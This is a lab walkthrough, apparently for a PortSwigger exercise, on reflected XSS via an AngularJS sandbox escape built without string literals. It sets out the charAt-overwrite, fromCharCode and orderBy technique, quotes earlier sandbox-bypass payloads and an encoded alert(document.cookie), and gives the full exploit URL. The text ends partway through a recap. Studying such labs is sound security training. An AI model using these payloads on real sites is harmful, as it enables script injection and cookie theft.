

---

**Difficulty:** 🔴 Expert

**Goal:**

- 🔍 Identify AngularJS client-side template injection vulnerability
- 🎯 Understand AngularJS sandbox security mechanism
- 💉 Craft exploit without using string literals (no quotes/strings in AngularJS expressions)
- 🔧 Overwrite String.prototype.charAt to break sandbox
- 🚀 Use orderBy filter with toString() constructor trick
- 🎉 Execute alert() function bypassing all sandbox protections

---

## 🧠 **Concept Recap**

> **Reflected XSS with AngularJS sandbox escape without strings** occurs when an application uses AngularJS to process user input in template expressions, and the lab context makes the use of string literals in AngularJS expressions unavailable (along with `$eval` being disabled). The AngularJS sandbox is designed to prevent access to dangerous objects like `window` or `document`, but it can be bypassed by manipulating JavaScript's prototype chain. This lab requires an advanced exploitation technique: using `toString().constructor` to access the String constructor, `fromCharCode()` to build strings from character codes, and overwriting `charAt()` to disable the sandbox's security checks — all without using a single string literal in the AngularJS expression.

### 📊 **The Vulnerability**

**Understanding AngularJS template expressions:**

```html
Normal HTML page:
<div>Hello World</div>

AngularJS template page:
<div>{{greeting}}</div>

AngularJS processing:
<script src="angular.js"></script>
<div ng-app>
    {{greeting}}
</div>

How AngularJS works:
1. Page loads with {{...}} expressions
2. AngularJS scans for template syntax
3. Evaluates expressions inside {{...}}
4. Replaces with evaluated result
5. DOM updated with dynamic content

Example:
<div>{{7*7}}</div>
         ↓
AngularJS evaluates: 7*7 = 49
         ↓
DOM becomes: <div>49</div>

User input in expressions:
Search: test
Template: <div>Search: {{search}}</div>
Result: <div>Search: test</div>

Vulnerable code:
<div>You searched for: {{$root.search}}</div>

URL: /?search=test
Result: <div>You searched for: test</div>

URL: /?search={{7*7}}
Result: <div>You searched for: 49</div>
```

**What is Client-Side Template Injection (CSTI)?**

```js
Client-Side Template Injection (CSTI):
└── User input embedded in client-side template
    └── Framework evaluates expressions
        └── Can execute arbitrary code
            └── XSS vulnerability! 💥

Server-Side vs Client-Side:

Server-Side Template Injection (SSTI):
- Template processed on server
- Executes in server context
- Can lead to RCE (Remote Code Execution)
- Example: Jinja2, Twig, Freemarker

Client-Side Template Injection (CSTI):
- Template processed in browser
- Executes in client context
- Leads to XSS
- Example: AngularJS, Vue.js, React (rare)

CSTI vulnerability flow:

Step 1: User input in URL
/?search={{constructor.constructor('alert(1)')()}}

Step 2: Server reflects input
<div ng-app>You searched for: {{constructor.constructor('alert(1)')()}}</div>

Step 3: AngularJS processes template
Browser loads page
         ↓
AngularJS scans for {{...}}
         ↓
Evaluates expression
         ↓
Executes JavaScript!
         ↓
alert(1) pops up! 💥

Why this is dangerous:
✓ No need for <script> tags
✓ Bypasses many XSS filters
✓ Works in ng-app context
✓ Powerful expression language
✓ Can access JavaScript features
```

**The AngularJS Sandbox:**

```js
What is the AngularJS Sandbox?

Purpose:
└── Security mechanism in AngularJS
    └── Prevents access to dangerous objects
        └── Restricts what expressions can do
            └── Intended to limit damage

Protected objects:
├── window (global object)
├── document (DOM access)
├── Function constructor
├── __proto__ (prototype access)
└── Other dangerous properties

How the sandbox works:

Step 1: Parse expression
Input: {{alert(1)}}
Parser extracts: alert(1)

Step 2: Rewrite JavaScript
Original: alert(1)
Rewritten: ensureSafeFunction(alert)(1)

Step 3: Security checks
ensureSafeFunction(fn):
├── Is it a function? ✓
├── Is it from window? ❌ Block!
├── Is it dangerous? ❌ Block!
└── Is it safe? ✓ Allow

Step 4: Execute or block
If safe: Execute
If dangerous: Throw error

Example blocked expressions:

{{window.alert(1)}}
└── Blocked: Direct window access

{{this.constructor.constructor('alert(1)')()}}
└── Blocked: Function constructor access

{{alert(1)}}
└── Blocked: window.alert reference

Sandbox security checks:

ensureSafeObject(obj):
- Checks if object references itself
- Blocks window, document
- Blocks dangerous objects

ensureSafeMemberName(name):
- Checks property names
- Blocks __proto__, __defineGetter__
- Blocks dangerous properties

ensureSafeFunction(fn):
- Checks if function is safe
- Blocks Function constructor
- Blocks eval, setTimeout, etc.

The sandbox's intention:
✓ Limit damage from injection
✓ Prevent full JavaScript execution
✓ Restrict access to sensitive APIs
✓ Defense in depth

But important note:
⚠️ AngularJS team says: "Sandbox is NOT a security boundary"
⚠️ Not meant to stop determined attackers
⚠️ Many bypasses discovered over years
⚠️ Eventually removed in Angular 1.6

The reality:
└── Developers treat it as security feature
    └── But it's been bypassed many times
        └── This lab demonstrates one bypass! 💥
```

**History of Sandbox Escapes:**

```js
Evolution of AngularJS sandbox bypasses:

Version 1.0 - 1.1.5:
└── No sandbox at all!
    └── Any expression executed freely
        └── Easy XSS: {{constructor.constructor('alert(1)')()}}

Version 1.2.0:
└── Sandbox introduced
    └── Basic protections added
        └── But quickly bypassed!

First bypasses (2013-2014):
{{constructor.constructor('alert(1)')()}}
└── Blocked: Direct constructor access

{{a='constructor';b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(1)')()}}
└── Worked! First complex bypass

Version 1.3.0:
└── Enhanced sandbox
    └── More security checks
        └── Still bypassed!

Version 1.3.1+:
└── Even stricter sandbox
    └── Blocks more patterns
        └── Still not safe!

Version 1.4.0+:
└── Additional protections
    └── ensureSafeFunction enhanced
        └── Bypasses continue...

Version 1.5.0+:
└── More security features
    └── Still vulnerable
        └── This lab exploits it!

Version 1.6.0:
└── Sandbox REMOVED!
    └── Google gave up
        └── Declared "not a security boundary"

Why bypasses kept working:
├── JavaScript is extremely flexible
├── Prototype manipulation possible
├── Many paths to same objects
├── Function constructor accessible
└── Creative researchers! 💡

Famous bypass researchers:
├── Gareth Heyes (PortSwigger)
├── Mario Heiderich
├── Sebastian Lekies
└── Many others in security community

The pattern:
1. Sandbox added → Bypassed
2. Sandbox enhanced → Bypassed again
3. More protections → Still bypassed
4. Eventually removed → No more sandbox!

Lessons learned:
✓ Don't rely on client-side security
✓ Input validation must be server-side
✓ Template injection is serious
✓ Client-side sandboxes are hard
✓ Prevention > Detection
```

**Understanding this Lab's Constraints:**

```js
Lab-specific challenges:

Challenge 1: No $eval function
Normal bypass:
{{$eval('alert(1)')}}
└── $eval not available in this lab! ❌

Challenge 2: No strings usable in AngularJS expressions
The lab configuration/context makes string literals
unusable inside AngularJS expressions:
'alert(1)' ❌
"alert(1)" ❌

NOTE: This is not necessarily a WAF blocking quote
characters at the HTTP level — the constraint is that
strings cannot be used within the AngularJS expression
context. The effect is the same: we must build strings
from character codes instead.

Must find alternative to create strings!

Challenge 3: AngularJS sandbox active
Must bypass:
├── ensureSafeObject checks
├── ensureSafeMemberName checks
├── ensureSafeFunction checks
└── All sandbox protections

The constraints force us to:
✓ Build strings without string literals
✓ Access constructors indirectly
✓ Manipulate prototypes
✓ Use character codes
✓ Be extremely creative! 💡

Why these constraints exist:
└── Represents real-world hardened apps
    └── Developers added filters
        └── Blocked obvious payloads
            └── But still vulnerable! ⚠️
```

**The Attack Strategy:**

```JS
Our exploitation approach:

Step 1: Create strings without string literals
Solution: Use toString()
         └── Converts scope's toString to a string
             └── Access String constructor via .constructor

Step 2: Access String constructor
toString() → Gets string representation of toString function
.constructor → Gets String constructor
String → Now we have String constructor!

Step 3: Overwrite charAt function
String.prototype.charAt = [].join
         └── Replace charAt with array join
             └── Breaks sandbox's charAt checks!

Step 4: Build payload from character codes
String.fromCharCode(120,61,97,108,101,114,116,40,49,41)
↓
"x=alert(1)"
         └── Built without string literals! ✓

Step 5: Use orderBy filter
[1]|orderBy:payload
         └── AngularJS evaluates payload
             └── Executes alert(1)! 💥

Complete attack flow:

1. toString().constructor.prototype.charAt=[].join
   └── Disable sandbox charAt protection

2. toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)
   └── Build "x=alert(1)" from codes

3. [1]|orderBy:payload
   └── Execute in AngularJS context

4. alert(1) runs!
   └── Lab solved! 🎉

Why this works:
✓ No string literals used
✓ Sandbox charAt check broken
✓ Constructor accessed indirectly
✓ AngularJS executes our code
✓ Perfect bypass! ✓
```

**Deep Dive: toString() Trick**

```js
Understanding toString():

In JavaScript, everything has toString():

Number:
(1).toString() = "1"

Object:
({}).toString() = "[object Object]"

Function:
(function(){}).toString() = "function(){}"

Array:
[].toString() = ""

Boolean:
true.toString() = "true"

The magic in AngularJS expression context:
When we use: toString()
Inside an AngularJS expression, it refers to the
current scope object's toString method.
         ↓
Calling toString() returns a string representation
         ↓
This is a STRING! ✓

NOTE: The exact string returned depends on the scope
object, but the key point is that .constructor on
any string gives us the String constructor function.
This path works regardless of which specific string
toString() returns.

The constructor property:

Every string has a constructor:
"hello".constructor = String
         ↓
Points to String constructor function

So:
toString().constructor
         ↓
String returned by toString() → .constructor
         ↓
String constructor! ✓

Why this is powerful:

String constructor has:
├── String.fromCharCode() - Build strings from codes
├── String.prototype - Modify all strings
└── String constructor itself - Create strings

We can access these without string literals! ✓

Example chain:

toString()
└── Some string representation

.constructor
└── String constructor function

.prototype
└── String.prototype object

.charAt
└── charAt function (the one we'll replace!)

Complete path:
toString().constructor.prototype.charAt
         └── Access charAt without any string literals! ✓
```

**Deep Dive: Overwriting charAt**

```js
Why overwrite charAt?

AngularJS sandbox uses charAt:

ensureSafeMemberName = function(name) {
    if (name.charAt(0) === '_') {
        // Blocked! Underscore prefix
        throw error;
    }
    // More checks...
}

The sandbox checks:
├── Does name start with '_'?
├── Is it '__proto__'?
├── Is it dangerous?
└── Uses charAt(0) to check first character

Our attack:
Replace charAt with a function that:
└── Doesn't return the actual character
    └── Returns a wrong/unexpected value
        └── Bypasses the sandbox! 💥

The replacement:

Original: String.prototype.charAt
- Returns character at index
- charAt(0) returns first character
- Used by sandbox for security checks

Our replacement: [].join
- Array join method
- When called on a string via prototype replacement,
  it treats the string as array-like
- Does NOT return the expected single character
- Breaks sandbox logic! ✓

How the bypass works:

Before replacement:
"__proto__".charAt(0)
└── Returns: "_"
    └── Sandbox detects: Dangerous!
        └── Blocked! ❌

After replacement:
String.prototype.charAt = [].join

"__proto__".charAt(0)
└── Now calls: Array.prototype.join.call("__proto__", 0)
    └── join treats "0" as separator, joins string chars
        └── Returns unexpected value (not "_")
            └── Sandbox check: result !== '_' → passes!
                └── Allowed! ✓

The exploitation:

Step 1: Normal sandbox check
ensureSafeMemberName("__proto__")
         ↓
if ("__proto__".charAt(0) === '_')
         ↓
"_" === '_' → true
         ↓
Throw error! ❌ Blocked!

Step 2: After charAt replacement
String.prototype.charAt = [].join
         ↓
ensureSafeMemberName("__proto__")
         ↓
if ("__proto__".charAt(0) === '_')
         ↓
Array.prototype.join.call("__proto__", 0)
         ↓
Returns unexpected non-"_" value
         ↓
Check fails open! ✓ Allowed!

Step 3: Sandbox bypassed
Now we can:
├── Access __proto__
├── Access constructor
├── Access dangerous properties
└── Execute arbitrary code! 💥

Why [].join specifically?

Array.prototype.join behavior:
- Joins array elements into string
- Signature: arr.join(separator)
- When called on a string (array-like object):
  treats each character as an element
  and the argument as separator
- Result: NOT the same as charAt's character return
- Perfect for breaking charAt logic!

What [].join.call("__proto__", 0) actually returns:
"_", "_", "p", "r", "o", "t", "o" joined by "0"
→ "_0_0p0r0o0t0o" (or similar)
→ Definitely not "_" alone
→ Sandbox check fails open! ✓

Alternative replacements:
- [].pop - Remove last element (returns undefined on strings)
- [].push - Add element (returns new length)
- [].shift - Remove first element (returns undefined on strings)
- Any function that doesn't act like charAt! ✓

The beauty of this technique:
✓ Breaks fundamental sandbox assumption
✓ Doesn't trigger security checks to install
✓ Changes behavior of all strings globally
✓ Permanent for this page execution
✓ Clever prototype manipulation! 💡
```

**Deep Dive: fromCharCode**

```js
String.fromCharCode() method:

Purpose:
└── Create strings from Unicode character codes
    └── Useful when string literals are unavailable!

Syntax:
String.fromCharCode(code1, code2, code3, ...)
         ↓
Returns: String of those characters

Examples:

String.fromCharCode(72, 101, 108, 108, 111)
└── Returns: "Hello"

String.fromCharCode(65)
└── Returns: "A"

String.fromCharCode(97)
└── Returns: "a"

String.fromCharCode(48)
└── Returns: "0"

Character code table (ASCII):

Lowercase letters:
a=97, b=98, c=99, d=100, e=101, f=102, g=103
h=104, i=105, j=106, k=107, l=108, m=109
n=110, o=111, p=112, q=113, r=114, s=115
t=116, u=117, v=118, w=119, x=120, y=121, z=122

Uppercase letters:
A=65, B=66, C=67, ... Z=90

Numbers:
0=48, 1=49, 2=50, 3=51, 4=52, 5=53
6=54, 7=55, 8=56, 9=57

Special characters:
(=40, )=41, ==61, <=60, >=62
;=59, :=58, !=33, @=64, #=35

For our payload "x=alert(1)":

x = 120
= = 61
a = 97
l = 108
e = 101
r = 114
t = 116
( = 40
1 = 49
) = 41

Complete fromCharCode:
String.fromCharCode(120,61,97,108,101,114,116,40,49,41)
         ↓
"x=alert(1)"

Why this is powerful:
✓ No string literals needed
✓ Just numbers
✓ Harder to filter
✓ Bypasses string restrictions! ✓

Accessing fromCharCode without string literals:

Can't do: String.fromCharCode(...)
└── "String" written literally IS a string identifier
    but more importantly, we need to reach it through
    a path that doesn't require string expressions
    in the AngularJS context.

Solution: toString().constructor.fromCharCode(...)
         ↓
toString() → String returned from scope's toString
.constructor → String constructor
.fromCharCode → The method! ✓

Complete chain:
toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)
└── Creates "x=alert(1)" without any string literals! ✓

Building more complex payloads:

For "alert(document.cookie)":
a=97, l=108, e=101, r=114, t=116, (=40
d=100, o=111, c=99, u=117, m=109, e=101, n=110, t=116
.=46, c=99, o=111, o=111, k=107, i=105, e=101, )=41

String.fromCharCode(97,108,101,114,116,40,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41)
└── "alert(document.cookie)"

Tools to generate character codes:

JavaScript console:
'x'.charCodeAt(0) → 120
'='.charCodeAt(0) → 61
'a'.charCodeAt(0) → 97

Python:
ord('x') → 120
','.join(str(ord(c)) for c in "x=alert(1)")
→ "120,61,97,108,101,114,116,40,49,41"

Online converters:
- String to char codes
- Char codes to string
- Quick conversion tools

The conversion process:

Payload we want: x=alert(1)
         ↓
Convert each character:
x → 120
= → 61
a → 97
l → 108
e → 101
r → 114
t → 116
( → 40
1 → 49
) → 41
         ↓
Combine with fromCharCode:
String.fromCharCode(120,61,97,108,101,114,116,40,49,41)
         ↓
Access without string literals:
toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)
         ↓
Evaluates to: "x=alert(1)"
         ↓
Use in AngularJS expression! ✓
```

**Deep Dive: orderBy Filter**

```js
AngularJS filters:

What are filters?
└── Transform data in expressions
    └── Pipe syntax: value | filter
        └── Similar to Unix pipes

Common filters:
├── uppercase - "hello" | uppercase → "HELLO"
├── lowercase - "HELLO" | lowercase → "hello"
├── currency - 123 | currency → "$123.00"
├── date - timestamp | date → "Jan 1, 2025"
└── orderBy - array | orderBy:expression

The orderBy filter:

Normal use:
<div ng-repeat="item in items | orderBy:'name'">
    {{item.name}}
</div>

Purpose: Sort arrays
Input: Array of objects
Parameter: Property to sort by
Output: Sorted array

Syntax:
array | orderBy:expression

Examples:

Sort by property:
[{name:'Bob'},{name:'Alice'}] | orderBy:'name'
└── [{name:'Alice'},{name:'Bob'}]

Sort by expression:
[{age:30},{age:20}] | orderBy:'age'
└── [{age:20},{age:30}]

The vulnerability:

orderBy accepts expressions!
         ↓
Not just property names
         ↓
Can be JavaScript code!
         ↓
Evaluates in AngularJS scope
         ↓
Can execute arbitrary code! 💥

Exploitation:

Normal: [1,2,3] | orderBy:'toString()'
└── Sorts by string value

Malicious: [1] | orderBy:'alert(1)'
└── Executes alert(1)! 💥

Why this works:

orderBy implementation:
1. Takes array as input
2. Evaluates expression for each element
3. Sorts based on result
4. Returns sorted array

The evaluation is the key:
└── Expression evaluated in AngularJS scope
    └── Can be ANY expression
        └── Including function calls! ✓

Our exploitation:

Payload structure:
[1] | orderBy:toString().constructor.fromCharCode(...)

Breaking it down:

[1]
└── Array with one element
    └── Needed for orderBy to process

|
└── Pipe operator
    └── AngularJS filter syntax

orderBy:
└── The filter name
    └── Will evaluate expression

toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)
└── Evaluates to: "x=alert(1)"
    └── This becomes the orderBy expression!

Execution flow:

Step 1: AngularJS sees
[1] | orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)

Step 2: Evaluate right side first
toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)
         ↓
"x=alert(1)"

Step 3: Now expression becomes
[1] | orderBy:"x=alert(1)"

Step 4: orderBy evaluates expression
For element 1:
Evaluate "x=alert(1)"
         ↓
Assignment: x = alert(1)
         ↓
Executes alert(1)! 💥
         ↓
Returns value of alert(1)

Step 5: alert() pops up!
Lab solved! 🎉

Why orderBy specifically?

Other filters don't evaluate code:
├── uppercase - Just converts case
├── lowercase - Just converts case
├── currency - Just formats numbers
└── date - Just formats dates

But orderBy:
✓ Evaluates expression per element
✓ Accepts arbitrary code
✓ Executes in scope
✓ Perfect for exploitation! ✓

Alternative filters for exploitation:
├── orderBy (most common)
├── filter (can evaluate expressions)
└── limitTo (less common)

The orderBy trick has been used in:
✓ Sandbox escapes
✓ CSP bypasses
✓ Template injection attacks
✓ Many real-world exploits! 💥
```

---
---

## 🛠️ **Step-by-Step Attack**

---

### 🔧 **Step 1 — Access Lab and Initial Exploration**

1. 🌐 Click **"Access the lab"**
2. 👀 Observe the website interface
3. 🔍 Look for AngularJS indicators

**Homepage layout:**

```
┌────────────────────────────────────┐
│ Blog Website                       │
├────────────────────────────────────┤
│                                    │
│ [Search: _____________] [Search]   │ ← Search functionality
│                                    │
│ Recent Posts:                      │
│ ├── Post 1                         │
│ ├── Post 2                         │
│ └── Post 3                         │
│                                    │
└────────────────────────────────────┘
```

**Checking for AngularJS:**

```js
Method 1: View Page Source
Right-click → View Page Source (Ctrl+U / Cmd+U)

Look for:
<script src="angular.js"></script>
OR
<script src="angular.min.js"></script>
OR
<div ng-app>
OR
<body ng-app>

Method 2: Check HTML attributes
Look for ng-* attributes:
├── ng-app
├── ng-controller
├── ng-model
├── ng-repeat
└── Any ng-* directive

Method 3: Browser console
Open DevTools (F12)
Type: angular.version
If AngularJS present: Shows version object
If not present: undefined

Method 4: Search reflected input
Use search box
Enter: {{7*7}}
If result shows: 49
Then AngularJS is processing expressions! ✓
```

---

### 🧪 **Step 2 — Test for Template Injection**

Let's verify that AngularJS evaluates expressions.

1. 🔍 In the search box, enter: `{{7*7}}`
2. 🚀 Click **"Search"**

**What to expect:**

```js
If vulnerable to template injection:
Search: {{7*7}}
Result page shows: "You searched for: 49"
         ↓
AngularJS evaluated 7*7 = 49
         ↓
Template injection confirmed! ✓

If not vulnerable:
Result page shows: "You searched for: {{7*7}}"
         ↓
Literal string, not evaluated
         ↓
Not vulnerable (or different context)
```

**Testing the result:**

```
URL becomes:
https://LAB-ID.web-security-academy.net/?search={{7*7}}

Expected page content:
┌────────────────────────────────────┐
│ Search Results                     │
├────────────────────────────────────┤
│                                    │
│ 0 search results for '49'          │ ← Shows 49, not {{7*7}}
│                                    │
└────────────────────────────────────┘

Analysis:
✅ Expression evaluated: 7*7 → 49
✅ AngularJS active
✅ Template injection confirmed
✅ Can inject expressions! 💥
```

---

### 🔬 **Step 3 — Test Basic XSS Payload**

Try a simple alert payload to see what protections exist.

1. 🔍 In search box, enter: `{{constructor.constructor('alert(1)')()}}`
2. 🚀 Click **"Search"**

**Expected behavior:**

```js
If sandbox is active:
URL: /?search={{constructor.constructor('alert(1)')()}}

Browser shows error or no alert:
└── Sandbox blocks constructor access
    └── No alert popup ❌

Page might show:
"0 search results for ''"
OR
Error in browser console:
"[$parse:isecfld] Attempted to access a forbidden field in Angular expressions!"

This confirms:
✅ AngularJS sandbox is active
✅ Basic bypasses don't work
✅ Need advanced technique! 💡
```

---

### 🎯 **Step 4 — Confirm Lab Constraints**

This lab has two known constraints from the lab description itself:

```js
Constraint 1: $eval is disabled
{{$eval('alert(1)')}}  ❌  Not available in this lab

Constraint 2: String literals cannot be used in expressions
The lab context/configuration prevents string literal usage
inside AngularJS expressions.

NOTE: You do not need to "test" these by trial — the lab
description tells you these constraints upfront. The goal
is to craft an exploit that works within them.

These constraints force us to:
└── Build strings using character codes
    └── Access constructors via prototype chain
        └── Use only numbers and object references
            └── Be creative! 💡
```

---

### 💡 **Step 5 — Test toString() Trick**

Verify we can access String constructor via toString().

1. 🔍 In search box, enter: `{{toString().constructor}}`
2. 🚀 Click **"Search"**

**What this tests:**

```js
Input: {{toString().constructor}}

Expected result:
"You searched for: function String() { [native code] }"
OR
Shows the String constructor function

This confirms:
✅ toString() works in expression context
✅ .constructor accessible
✅ Can reach String constructor
✅ Foundation for exploit! ✓

If blocked or error:
└── Different approach needed
    └── But this should work in this lab! ✓
```

---

### 🔧 **Step 6 — Test fromCharCode**

Verify we can create strings from character codes.

1. 🔍 In search box, enter: `{{toString().constructor.fromCharCode(72,105)}}`
2. 🚀 Click **"Search"**

**Character code breakdown:**

```js
72 = 'H'
105 = 'i'

fromCharCode(72,105) = "Hi"

Expected result:
"You searched for: Hi"

This confirms:
✅ fromCharCode works
✅ Can build strings without string literals
✅ Character codes → strings
✅ Key technique ready! ✓

URL in browser:
/?search={{toString().constructor.fromCharCode(72,105)}}

Result page:
┌────────────────────────────────────┐
│ Search Results                     │
├────────────────────────────────────┤
│                                    │
│ 0 search results for 'Hi'          │ ← Created "Hi" from codes!
│                                    │
└────────────────────────────────────┘
```

---

### 🛠️ **Step 7 — Build the Payload**

Now construct the complete exploit payload.

**Payload components:**

```js
Component 1: Overwrite charAt
toString().constructor.prototype.charAt=[].join

What this does:
- toString().constructor → String constructor
- .prototype → String.prototype
- .charAt → The charAt function
- =[].join → Replace with Array.prototype.join
- Result: All strings' charAt is now broken globally! ✓

Why it breaks the sandbox:
Sandbox calls: "name".charAt(0)
After replacement: Array.prototype.join.call("name", 0)
This does NOT return the first character as expected.
The sandbox's comparison (e.g., charAt(0) === '_') fails open.

Component 2: Create alert payload
toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)

Character code breakdown:
120 = 'x'
61 = '='
97 = 'a'
108 = 'l'
101 = 'e'
114 = 'r'
116 = 't'
40 = '('
49 = '1'
41 = ')'

Result: "x=alert(1)"

Why "x=alert(1)" not just "alert(1)"?
└── Assignment expression
    └── x = alert(1)
        └── Executes alert(1)
            └── Returns value to x
            └── Valid expression in orderBy context

Component 3: Use orderBy filter
[1]|orderBy:payload

Structure:
- [1] → Array with one element (required by orderBy)
- | → Pipe to filter
- orderBy: → The filter
- payload → Expression to evaluate

Component 4: Add search parameter
?search=1&...

Why search=1?
└── Sets initial search value
    └── Can be anything
        └── Just needed for URL structure

Complete URL structure:
?search=1&toString().constructor.prototype.charAt=[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```

**Building step by step:**

```HTTP
Step 1: Start with base URL
https://LAB-ID.web-security-academy.net/

Step 2: Add search parameter
https://LAB-ID.web-security-academy.net/?search=1

Step 3: Add charAt overwrite
?search=1&toString().constructor.prototype.charAt=[].join

Step 4: Add orderBy with payload
?search=1&toString().constructor.prototype.charAt=[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)

Step 5: Add equals sign for assignment
?search=1&toString().constructor.prototype.charAt=[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1

Final payload:
?search=1&toString().constructor.prototype.charAt=[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```

---

### 🚀 **Step 8 — URL Encode the Payload**

The payload needs proper URL encoding.

**URL encoding requirements:**

```js
Characters that need encoding:
= → %3d  ← CRITICAL: The = in charAt=[].join must be encoded!

Why? Because '=' separates parameter name/value in URLs.
Without encoding: Breaks URL parsing
With encoding: Works correctly! ✓

Encoded payload:
toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1

Note: The final =1 does NOT need encoding because it appears
after the last expression, not inside a parameter name.
```

**Complete URL (official PortSwigger solution):**

```R
https://YOUR-LAB-ID.web-security-academy.net/?search=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1

Breaking it down:
https://YOUR-LAB-ID.web-security-academy.net/
         ↓
Base URL

?search=1
         ↓
First parameter (search=1)

&toString().constructor.prototype.charAt%3d[].join
         ↓
Overwrite charAt (%3d is URL-encoded = sign)

;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)
         ↓
OrderBy filter with alert payload

=1
         ↓
Assignment (makes it a complete expression)
```

---

### 🎯 **Step 9 — Execute the Exploit**

Now let's run the complete payload!

1. 📝 Copy the complete URL:

```r
https://YOUR-LAB-ID.web-security-academy.net/?search=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```

2. ✏️ Replace `YOUR-LAB-ID` with your actual lab ID
    
    - Find it in your browser's address bar
    - Example: `0a12345678901234567890ab`
3. 🌐 Paste the complete URL in browser address bar
    
4. ⏎ Press **Enter**
    

**Execution flow:**

```js
Browser loads URL
         ↓
Page loads with search parameter
         ↓
AngularJS processes template
         ↓
Step 1: Overwrite charAt globally
toString().constructor.prototype.charAt=[].join
         ↓
All strings now have broken charAt! ✓
         ↓
Step 2: Evaluate orderBy
[1]|orderBy:toString().constructor.fromCharCode(...)
         ↓
fromCharCode creates: "x=alert(1)"
         ↓
orderBy evaluates: x=alert(1)
         ↓
Assignment executes: alert(1)
         ↓
Alert popup appears! 💥
```

**Expected result:**

```
Alert popup:
┌────────────────────────────────────┐
│ This page says:                    │
│                                    │
│ 1                                  │
│                                    │
│            [OK]                    │
└────────────────────────────────────┘

Success indicators:
✅ Alert shows number "1"
✅ Executes automatically on page load
✅ No console errors
✅ Sandbox bypassed! 🎉
```

---

### ✅ **Step 10 — Lab Solved!**

If the alert popup appears, the lab is automatically marked as solved!

**Completion banner:**

```
┌─────────────────────────────────────────┐
│  ✅ Congratulations!                    │
│                                         │
│  You successfully performed an          │
│  AngularJS sandbox escape without       │
│  using string literals, by overwriting  │
│  String.prototype.charAt and using      │
│  fromCharCode to build the payload.     │
│                                         │
│  Lab: Reflected XSS with AngularJS      │
│       sandbox escape without strings    │
│  Status: SOLVED ✓                       │
└─────────────────────────────────────────┘
```

**What you accomplished:**

```
Attack chain completed:
1. ✅ Identified AngularJS template injection
2. ✅ Confirmed sandbox protection active
3. ✅ Understood lab's string/eval constraints
4. ✅ Used toString() to access String constructor
5. ✅ Overwrote charAt to break sandbox
6. ✅ Built payload with fromCharCode
7. ✅ Used orderBy filter for execution
8. ✅ Bypassed all protections
9. ✅ Executed alert(1)
10. ✅ Lab solved! 🎉

Skills demonstrated:
├── Advanced JavaScript prototype manipulation
├── AngularJS sandbox bypass techniques
├── String building without string literals
├── Filter exploitation
├── URL encoding
└── Creative problem solving! 💡
```

---

## 🔗 **Complete Attack Chain**

```r
Step 1: Access lab
         ↓
Step 2: Test for AngularJS
         → Search: {{7*7}}
         → Result: 49
         → AngularJS confirmed! ✓
         ↓
Step 3: Test sandbox
         → Try: {{constructor.constructor('alert(1)')()}}
         → Blocked by sandbox ❌
         → Need bypass technique
         ↓
Step 4: Note lab constraints (from description)
         → $eval disabled
         → String literals unavailable in expressions
         → Need quote-free approach
         ↓
Step 5: Verify toString() access
         → Test: {{toString().constructor}}
         → Shows: String constructor
         → Access confirmed! ✓
         ↓
Step 6: Verify fromCharCode
         → Test: {{toString().constructor.fromCharCode(72,105)}}
         → Result: "Hi"
         → String building works! ✓
         ↓
Step 7: Construct exploit
         → Component 1: charAt overwrite
         → toString().constructor.prototype.charAt=[].join
         →
         → Component 2: Payload via fromCharCode
         → toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)
         → Creates: "x=alert(1)"
         →
         → Component 3: orderBy filter
         → [1]|orderBy:payload
         →
         → Combined:
         → ?search=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
         ↓
Step 8: URL encode
         → = becomes %3d (only the charAt= one)
         → Final payload ready! ✓
         ↓
Step 9: Execute exploit
         → Paste URL in browser
         → Page loads
         → AngularJS processes
         → charAt overwritten globally
